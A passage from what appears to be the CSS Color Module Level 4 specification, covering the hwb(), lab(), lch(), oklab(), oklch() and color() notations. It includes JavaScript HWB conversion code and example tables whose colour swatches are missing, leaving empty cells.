| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 60° Yellows |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 90° Yellow-Greens |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 120° Greens |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 150° Green-Cyans |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 180° Cyans |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 210° Cyan-Blues |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 240° blues |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 270° Blue-Magentas |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 300° Magentas |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 330° Magenta-Reds |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

### 8.  HWB Colors: `hwb()` function {#css-color-4:the-hwb-notation}

**HWB** (short for Hue-Whiteness-Blackness) [HWB] is another method of specifying sRGB colors, similar to `HSL`', but often even easier for humans to work with. It describes colors with a starting hue, then a degree of whiteness and blackness to mix into that base hue.

Many color-pickers are based on the HWB color system, due to its intuitiveness.

HWB colors resolve to sRGB.


This is a screenshot of Chrome’s color picker, shown when a user activates an `<input type="color">`. The outer wheel is used to select the hue, then the relative amounts of white and black are selected by clicking on the inner triangle.

The syntax of the `hwb()` function is:

```css
hwb() = hwb(
  [<hue> | none]
  [<percentage> | <number> | none]
  [<percentage> | <number> | none]
  [ / [<alpha-value> | none] ]? )
```

| Percentages | Allowed for W and B |
| --- | --- |
| Percent reference range | for W and B: 0% = 0.0, 100% = 100.0 |
| Powerless hue ε | W + B >= 99.999 |

The first argument specifies the hue, and is defined identically to `hsl()`; this means it [suffers the same disadvantages](#css-color-4:disadvantage-hsl) such as hue uniformity.

The second argument specifies the amount of white to mix in, as a percentage from `0%` (no whiteness) to `100%` (full whiteness). Similarly, the third argument specifies the amount of black to mix in, also from `0%` (no blackness) to `100%` (full blackness).

> **Example:** For example,  hwb(150 20% 10%) is the same color as  hsl(150 77.78% 55%) and  rgb(20% 90% 55%).

> **Note:** `hwb()` does not account for the Abney effect [Abney] which is the perceived hue shift that occurs when white light is added to a monochromatic light source.

Values outside of these ranges are not invalid; hue angles outside the range [0,360) will be normalized to that range and values of white and black which sum to 100% or greater will produce achromatic colors as described below.

The resulting color can be thought of conceptually as a mixture of paint in the chosen hue, white paint, and black paint, with the relative amounts of each determined by the percentages.

If the sum white+black is greater than or equal to `100%`, it defines an achromatic color, i.e. a shade of gray; when converted to sRGB the R, G and B values are identical and have the value white / (white + black).

> **Example:** For example, in the color  hwb(45 40% 80%) white and black adds to 120, so this is an achromatic color whose R, G and B components are 40 / 40 + 80 = 0.33  rgb(33.33% 33.33% 33.33%).

Achromatic HWB colors no longer contain any hint of the chosen hue. In this case, the hue component is powerless.

The fourth argument specifies the alpha component of the color. It’s interpreted identically to the fourth argument of the `rgb()` function. If omitted, it defaults to `100%`.

There is no Web compatibility issue with `hwb`, which is new in this level of the specification, and so `hwb()` does *not* support a legacy color syntax that separates all of its arguments with commas. Using commas inside `hwb()` is an error.

#### 8.1.  Converting HWB Colors to sRGB {#css-color-4:hwb-to-rgb}

Converting an HWB color to sRGB is straightforward, and related to how one converts HSL to RGB. The following JavaScript implementation of the algorithm first normalizes the white and black components, so their sum is no larger than 100%.

```javascript
/**
 * @param {number} hue -  Hue as degrees 0..360
 * @param {number} white -  Whiteness in reference range [0,100]
 * @param {number} black -  Blackness in reference range [0,100]
 * @return {number[]} Array of RGB components 0..1
 */
function hwbToRgb(hue, white, black) {
    white /= 100;
    black /= 100;
    if (white + black >= 1) {
        let gray = white / (white + black);
        return [gray, gray, gray];
    }
    let rgb = hslToRgb(hue, 100, 50);
    for (let i = 0; i < 3; i++) {
        rgb[i] *= (1 - white - black);
        rgb[i] += white;
    }
    return rgb;
}
```

#### 8.2.  Converting sRGB Colors to HWB {#css-color-4:rgb-to-hwb}

Conversion in the reverse direction proceeds similarly.

```javascript
/**
 * @param {number} red - Red component 0..1
 * @param {number} green - Green component 0..1
 * @param {number} blue - Blue component 0..1
 * @return {number} Hue as degrees 0..360
 */
function rgbToHue(red, green, blue) {
    // Similar to rgbToHsl, except that saturation and lightness are not calculated, and
    // potential negative saturation is ignored.
    let max = Math.max(red, green, blue);
    let min = Math.min(red, green, blue);
    let hue = NaN;
    let d = max - min;

    if (d !== 0) {
        switch (max) {
            case red:   hue = (green - blue) / d + (green < blue ? 6 : 0); break;
            case green: hue = (blue - red) / d + 2; break;
            case blue:  hue = (red - green) / d + 4;
        }

        hue *= 60;
    }

    if (hue >= 360) {
        hue -= 360;
    }

    return hue;
}

/**
 * @param {number} red - Red component 0..1
 * @param {number} green - Green component 0..1
 * @param {number} blue - Blue component 0..1
 * @return {number[]} Array of HWB values: Hue as degrees 0..360, Whiteness and Blackness in reference range [0,100]
 */
function rgbToHwb(red, green, blue) {
    let epsilon = 1 / 100000;  // account for multiply by 100
    var hue = rgbToHue(red, green, blue);
    var white = Math.min(red, green, blue);
    var black = 1 - Math.max(red, green, blue);
    if (white + black >= 1 - epsilon) {
        hue = NaN;
    }
    return([hue, white*100, black*100]);
}
```

#### 8.3.  Examples of HWB Colors {#css-color-4:hwb-examples}

*This section is not normative.*

|  | 0° Reds |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 30° Red-Yellows (Oranges) |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 60° Yellows |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 90° Yellow-Greens |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 120° Greens |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 150° Green-Cyans |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 180° Cyans |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 210° Cyan-Blues |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 240° Blues |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 270° Blue-Magentas |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 300° Magentas |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

|  | 330° Magenta-Reds |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| W\B | 0% | 20% | 40% | 60% | 80% | 100% |
| 0% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 100% |  |  |  |  |  |  |

### 9.  Device-independent Colors: CIE Lab and LCH, Oklab and OkLCh {#css-color-4:lab-colors}

#### 9.1. CIE Lab and LCH {#css-color-4:cie-lab}

*This section is not normative.*

Physical measurements of a color are typically expressed in the CIE L*a*b* [CIELAB] color space, created in 1976 by the CIE and commonly referred to simply as Lab. Color conversions from one device to another may also use Lab as an intermediate step. Derived from human vision experiments, Lab represents the entire range of color that humans can see.

Lab is a rectangular coordinate system with a central Lightness (L) axis. This value is usually written as a unitless number; for compatibility with the rest of CSS, it may also be written as a percentage. 100% means an L value of 100, not 1.0. L=0% or 0 is deep black (no light at all) while L=100% or 100 is a diffuse white.

Usefully, L=50% or 50 is mid gray, by design, and equal increments in L are evenly spaced visually: the Lab color space is intended to be *perceptually uniform*.

 

This figure shows, to the left, the Lightness axis of the CIE Lab color space. Twenty-one neutral swatches are shown (L=0%, L=5%, to L=100%). The steps are equally spaced, visually. To the right, the same number of steps in luminance are equally spaced in light energy but **not** equally spaced visually.

The a and b axes convey hue; positive values along the a axis are a purplish red while negative values are the complementary color, a green. Similarly, positive values along the b axis are yellow and negative are the complementary blue/violet. Desaturated colors have small values of a and b and are close to the L axis; saturated colors lie far from the L axis.

The illuminant is D50 white, a standardized daylight spectrum with a color temperature of 5000K, as reflected by a perfect diffuse reflector; it approximates the color of sunlight on a sunny day. D50 is also the whitepoint used for the profile connection space in ICC color interconversion, the whitepoint used in image editors which offer Lab editing, and the value used by physical measurement devices such as spectrophotometers and spectroradiometers, when they report measured colors in Lab.

Conversion from colors specified using other white points is called a **chromatic adaptation transform**, which models the changes in the human visual system as we adapt to a new lighting condition. The linear Bradford algorithm [ICC] (a simplification of the original Bradford algorithm [Bradford-CAT]) is the industry standard chromatic adaptation transform, and is easy to calculate as it is a simple matrix multiplication.

CIE LCH has the same L axis as Lab, but uses polar coordinates C (chroma) and H (hue), making it a polar, cylindrical coordinate system. C is the geometric distance from the L axis and H is the angle from the positive a axis, towards the positive b axis.


This figure shows the L=50 plane of the CIE Lab color space. 20 degree increments in CIE LCH are displayed as circles at three levels of Chroma: 20, 40 and 60. All the 20 Chroma colors fit inside sRGB gamut, some of 40 and 60 Chroma are outside. These out of gamut colors are visualized as grey, with a red warning outer stroke.

> **Note:** The L axis in Lab and LCH is not to be confused with the L axis in HSL. For example, in HSL, the sRGB colors blue (#00F) and yellow (#FF0) have the same value of L (50%) even though visually, blue is much darker. This is much clearer in Lab: sRGB blue is lab(29.567% 68.298 -112.0294) while sRGB yellow is lab(97.607% -15.753 93.388). In Lab and LCH, if two colors have the same measured L value, they have identical visual lightness. HSL and related polar RGB models were developed in an attempt to give similar usability benefits for RGB that LCH gave to Lab, but are significantly less accurate.

Although the use of CIE Lab and LCH is widespread, it is known to have some problems. In particular:

**Hue linearity**

: In the blue region (LCH Hue between 270° and 330°), visual hue departs from what LCH predicts. Plotting a set of blues of the same hue and differing Chroma, which should lie on a straight line from the neutral axis, instead form a curve. Put another way, as a saturated blue has its Chroma progressively reduced, it becomes noticeably purple.

**Hue uniformity**

: While hues in LCH are in general evenly spaced, (and far better than HSL or HWB), uniformity is not perfect.

**Over-prediction of high Chroma differences**

: For high Chroma colors, changes in Chroma are less noticeable than for more neutral colors.

These deficiencies affect, for example, creation of evenly spaced gradients, gamut mapping from one color space to a smaller one, and computation of the visual difference between two colors.

To compensate for this, formulae to predict the visual difference between two colors (delta E) have been made more accurate over time (but also, much more complex to compute). The current industry standard formula, delta E 2000, works well to mitigate some of the Lab and LCH problems. A sample implementation is given in [§ 20.2 ΔE2000](#css-color-4:color-difference-2000).

This does not help with hue curvature, however.

#### 9.2. Oklab and OkLCh {#css-color-4:ok-lab}

*This section is not normative.*

Recently, Oklab, an improved Lab-like space has been developed [Oklab]. The corresponding polar form is called OkLCh. It was produced by numerical optimization of a large dataset of visually similar colors, and has improved hue linearity, hue uniformity, and chroma uniformity compared to CIE LCH.

Like CIE Lab, there is a central lightness L axis which is usually written as a unitless number in the range [0,1]; for compatibility with the rest of CSS, it may be written as a percentage. 100% means an L value of 1.0. L=0% or 0.0 is deep black (no light at all) while L=100% or 1.0 is a diffuse white.

> **Note:** Unlike CIE Lab, which assumes adaptation to the diffuse white, Oklab assumes adaptation to the color being defined, which is intended to make it scale invariant.

As with CIE Lab, the a and b axes convey hue; positive values along the a axis are a purplish red while negative values are the complementary color, a green. Similarly, positive values along the b axis are yellow and negative are the complementary blue/violet.

The illuminant is D65, the same white point as most RGB color spaces.

OkLCh has the same L axis as Oklab, but uses polar coordinates C (chroma) and H (hue).

> **Note:** Unlike CIE LCH, where Chroma can reach values of 200 or more, OkLCh Chroma ranges to 0.5 or so. The hue angles between CIE LCH and OkLCh are broadly similar, but not identical.


A constant CIE LCH hue slice, showing the sRGB gamut around primary blue. A noticeable purpling is immediately evident.


A constant OkLCh hue slice, showing the sRGB gamut around primary blue. The visual hue remains constant.

Because Oklab is more perceptually uniform than CIE Lab, the color difference is a straightforward distance in 3D space (root sum of squares). Although trivial, a sample implementation is give in [§ 20.3 ΔEOK](#css-color-4:color-difference-OK).

#### 9.3.  Specifying Lab and LCH: the `lab()` and `lch()` functional notations {#css-color-4:specifying-lab-lch}

CSS allows colors to be directly expressed in Lab and LCH.

```css
lab() = lab( [<percentage> | <number> | none]
      [ <percentage> | <number> | none]
      [ <percentage> | <number> | none]
      [ / [<alpha-value> | none] ]? )
```

| Percentages | Allowed for L, a and b |
| --- | --- |
| Percent reference range | for L: 0% = 0.0, 100% = 100.0 for a and b: -100% = -125, 100% = 125 |

In **Lab**, the first argument specifies the CIE Lightness, L. This is a number between `0%` or 0 and `100%` or 100. Values less than `0%` or 0 must be clamped to `0%` at parsed-value time; values greater than `100%` or 100 are clamped to `100%` at parsed-value time.

The second and third arguments are the distances along the "a" and "b" axes in the Lab color space, as described in the previous section. These values are signed (allow both positive and negative values) and theoretically unbounded (but in practice do not exceed ±160 for real-world colors).

There is an optional fourth `<alpha-value>` component, separated by a slash, representing the alpha component.

If the lightness of a Lab color (after clamping) is `0%`, or `100%` the color will be displayed as black, or white, respectively due to gamut mapping to the display.

> **Example:** ```css
>  lab(29.2345% 39.3825 20.0664);
>  lab(52.2345 40.1645 59.9971);
>  lab(60.2345 -5.3654 58.956);
>  lab(62.2345% -34.9638 47.7721);
>  lab(67.5345 -8.6911 -41.6019);
>  lab(29.69% 44.888% -29.04%)
> ```

```css
lch() = lch( [<percentage> | <number> | none]
      [ <percentage> | <number> | none]
      [ <hue> | none]
      [ / [<alpha-value> | none] ]? )
```

| Percentages | Allowed for L and C |
| --- | --- |
| Percent reference range | for L: 0% = 0.0, 100% = 100.0 for C: 0% = 0, 100% = 150 |
| Powerless hue ε | C <= 0.0015 |

In CIE **LCH** the first argument specifies the CIE Lightness L, interpreted identically to the Lightness argument of `lab()`.

The second argument is the chroma C, (roughly representing the "amount of color"). Its minimum useful value is `0`, while its maximum is theoretically unbounded (but in practice does not exceed `230`). If the provided value is negative, it is clamped to `0` at parsed-value time.

The third argument is the hue angle H. It’s interpreted similarly to the `<hue>` argument of `hsl()`, but doesn’t map hues to angles in the same way because they are evenly spaced perceptually. Instead, `0deg` points along the positive "a" axis (toward purplish red), (as does `360deg`, `720deg`, etc.); `90deg` points along the positive "b" axis (toward mustard yellow), `180deg` points along the negative "a" axis (toward greenish cyan), and `270deg` points along the negative "b" axis (toward sky blue).

There is an optional fourth `<alpha-value>` component, separated by a slash, representing the alpha component.

If the chroma of an LCH color is `0%`, the hue component is powerless. If the lightness of an LCH color (after clamping) is `0%`, or `100%`, the color will be displayed as black, or white, respectively due to gamut mapping to the display.

> **Example:** ```css
>  lch(29.2345% 44.2 27);
>  lch(52.2345% 72.2 56.2);
>  lch(60.2345 59.2 95.2);
>  lch(62.2345% 59.2 126.2);
>  lch(67.5345% 42.5 258.2);
>  lch(29.69% 45.553% 327.1)
> ```

There is no Web compatibility issue with `lab` or `lch`', which are new in this level of the specification, and so `lab()` and `lch()` do *not* support a legacy color syntax that separates all of their arguments with commas. Using commas inside these functions is an error.

#### 9.4.  Specifying Oklab and OkLCh: the `oklab()` and `oklch()` functional notations {#css-color-4:specifying-oklab-oklch}

CSS allows colors to be directly expressed in Oklab and OkLCh.

```css
oklab() = oklab( [ <percentage> | <number> | none]
    [ <percentage> | <number> | none]
    [ <percentage> | <number> | none]
    [ / [<alpha-value> | none] ]? )
```

| Percentages | Allowed for L, a and b |
| --- | --- |
| Percent reference range | for L: 0% = 0.0, 100% = 1.0 for a and b: -100% = -0.4, 100% = 0.4 |

In **Oklab** the first argument specifies the Oklab Lightness. This is a number between `0%` or 0 and `100%` or 1.0.

Values less than `0%` or 0.0 must be clamped to `0%` at parsed-value time; values greater than `100%` or 1.0 are clamped to `100%` at parsed-value time.

The second and third arguments are the distances along the "a" and "b" axes in the Oklab color space, as described in the previous section. These values are signed (allow both positive and negative values) and theoretically unbounded (but in practice do not exceed ±0.5).

There is an optional fourth `<alpha-value>` component, separated by a slash, representing the alpha component.

If the lightness of an Oklab color is `0%` or 0, or `100%` or 1.0, the color will be displayed as black, or white, respectively due to gamut mapping to the display.

> **Example:** ```css
>  oklab(40.101% 0.1147 0.0453);
>  oklab(59.686% 0.1009 0.1192);
>  oklab(0.65125 -0.0320 0.1274);
>  oklab(66.016% -0.1084 0.1114);
>  oklab(72.322% -0.0465 -0.1150);
>  oklab(42.1% 41% -25%)
> ```

```css
oklch() = oklch( [ <percentage> | <number> | none]
      [ <percentage> | <number> | none]
      [ <hue> | none]
      [ / [<alpha-value> | none] ]? )
```

| Percentages | Allowed for L and C |
| --- | --- |
| Percent reference range | for L: 0% = 0.0, 100% = 1.0 for C: 0% = 0.0 100% = 0.4 |
| Powerless hue ε | C <= 0.000004 |

In **OkLCh** the first argument specifies the OkLCh Lightness L, interpreted identically to the Lightness argument of `oklab()`.

The second argument is the chroma C. Its minimum useful value is `0`, while its maximum is theoretically unbounded (but in practice does not exceed `0.5`). If the provided value is negative, it is clamped to `0` at parsed-value time.

The third argument is the hue angle H. It’s interpreted similarly to the `<hue>` arguments of `hsl()` and `lch()`, but doesn’t map hues to angles in the same way. `0deg` points along the positive "a" axis (toward purplish red), (as does `360deg`, `720deg`, etc.); `90deg` points along the positive "b" axis (toward mustard yellow), `180deg` points along the negative "a" axis (toward greenish cyan), and `270deg` points along the negative "b" axis (toward sky blue).

There is an optional fourth `<alpha-value>` component, separated by a slash, representing the alpha component.

If the chroma of an OkLCh color is `0%` or 0, the hue component is powerless. If the lightness of an OkLCh color is `0%` or 0, or `100%` or 1.0, the color will be displayed as black, or white, respectively due to gamut mapping to the display.

> **Example:** ```css
>  oklch(40.101% 0.12332 21.555);
>  oklch(59.686% 0.15619 49.7694);
>  oklch(0.65125 0.13138 104.097);
>  oklch(0.66016 0.15546 134.231);
>  oklch(72.322% 0.12403 247.996);
>  oklch(42.1% 48.25% 328.4)
> ```

There is no Web compatibility issue with `oklab` or `oklch`', which are new in this level of the specification, and so `oklab()` and `oklch()` do *not* support a legacy color syntax that separates all of their arguments with commas. Using commas inside these functions is an error.

#### 9.5.  Converting Lab or Oklab colors to LCH or OkLCh colors {#css-color-4:lab-to-lch}

Conversion to the polar form is trivial:

1. C = sqrt(a^2 + b^2)
2. if (C > epsilon) H = atan2(b, a) else H is missing and C = 0
3. L is the same

For extremely small values of a and b (near-zero Chroma), although the visual color does not change from being on the neutral axis, small changes to the values can result in the reported hue angle swinging about wildly and being essentially random. In CSS, this means the hue is powerless, and treated as missing when converted into LCH or OkLCh; in non-CSS contexts this might be reflected as a missing value, such as NaN.

#### 9.6.  Converting LCH or OkLCh colors to Lab or Oklab colors {#css-color-4:lch-to-lab}

Conversion to the rectangular form is trivial:

1. If H is missing, H = 0

  1. a = C cos(H)
  2. b = C sin(H)
2. L is the same

### 10.  Predefined Color Spaces {#css-color-4:predefined}

CSS provides several predefined color spaces including `display-p3` [Display-P3], which is a wide gamut space typical of current wide-gamut monitors, `prophoto-rgb`, widely used by photographers and `rec2020` [Rec.2020], which is a broadcast industry standard, ultra-wide gamut space capable of representing almost all visible real-world colors.

#### 10.1.  Specifying Predefined Colors: the `color()` function {#css-color-4:color-function}

The `color()` function allows a color to be specified in a particular, specified color space (rather than the implicit sRGB color space that most of the other color functions operate in). Its syntax is:

```css
color() = color( <colorspace-params> [ / [ <alpha-value> | none ] ]? )
<colorspace-params> = [ <predefined-rgb-params> | <xyz-params>]
<predefined-rgb-params> = <predefined-rgb> [ <number> | <percentage> | none ]{3}
<predefined-rgb> = srgb | srgb-linear | display-p3 | display-p3-linear | a98-rgb | prophoto-rgb | rec2020
<xyz-params> = <xyz-space> [ <number> | <percentage> | none ]{3}
<xyz-space> = xyz | xyz-d50 | xyz-d65
```

The color function takes parameters specifying a color, in an explicitly listed color space.

It represents either an invalid color, as described below, or a valid color.

The parameters have the following form:

- An `<ident>` denoting one of the [predefined color spaces](#css-color-4:predefined) (such as `display-p3`) Individual [predefined color spaces](#css-color-4:predefined) may further restrict whether `<number>`s or `<percentage>`s or both, may be used.

  If the `<ident>` names a non-existent color space (a name that does not match one of the [predefined color spaces](#css-color-4:predefined)), this argument represents an invalid color.
- The three parameter values that the color space takes (RGB or XYZ values).

An out of gamut color has component values less than 0 or 0%, or greater than 1 or 100%. These are not invalid, and are retained for intermediate computations; instead, for display, they are css gamut mapped using a relative colorimetric intent which brings the values (in the display color space) within the range 0/0% to 1/100% at actual-value time.

- An optional slash-separated `<alpha-value>`.

There is no Web compatibility issue with `color()`, which is new in this level of the specification, and so `color()` does *not* support a legacy color syntax that separates all of its arguments with commas. Using commas inside this function is an error.

A color which is either an invalid color or an out of gamut color **can’t be displayed**.

If the specified color **can be displayed**, (that is, it isn’t an invalid color and isn’t out of gamut) then this is the actual value of the `color()` function.

If the specified color is a valid color but can’t be displayed, the actual value is derived from the specified color, css gamut mapped for display.

If the color is an invalid color, the used value is opaque black.

> **Example:** This very intense lime color is in-gamut for rec.2020:
>
> ```css
> color(rec2020 0.42053 0.979780 0.00579);
> ```
>
> in LCH, that color is
>
> ```css
> lch(85.9017% 166.116 138.207);
> ```
>
> in display-p3, that color is
>
> ```css
> color(display-p3 -0.350289 1.00707 -0.144209);
> ```
>
> and is out of gamut for display-p3 (red and blue are negative, green is greater than 1). If you have a display-p3 screen, that color is:
>
> - *valid*
> - *in gamut* (for rec.2020)
> - *out of gamut* (for your display)
> - and so *can’t be displayed*
>
> The color used for display will be a less intense color produced automatically by gamut mapping.

> **Example:** This example has a typo! An intense green is provided in profoto-rgb space (which doesn’t exist). This makes it invalid, so the used value is opaque black
>
> ```css
> color(profoto-rgb 0.4835 0.9167 0.2188)
> ```

#### 10.2.  The Predefined sRGB Color Space: the `sRGB` keyword {#css-color-4:predefined-sRGB}

The **sRGB** predefined color space defined below is the same as is used for legacy sRGB colors, such as `rgb()`.

****srgb****

: The `srgb` [SRGB] color space accepts three numeric parameters, representing the red, green, and blue components of the color. In-gamut colors have all three components in the range [0, 1]. The whitepoint is D65.

  [SRGB] specifies two viewing conditions, *encoding* and *typical*. The [ICC] recommends using the *encoding* conditions for color conversion and for optimal viewing, which are the values in the table below.

  sRGB is the default color space for CSS, used for all the legacy color functions.

  It has the following characteristics:

  |  | x | y |
  | --- | --- | --- |
  | Red chromaticity | 0.640 | 0.330 |
  | Green chromaticity | 0.300 | 0.600 |
  | Blue chromaticity | 0.150 | 0.060 |
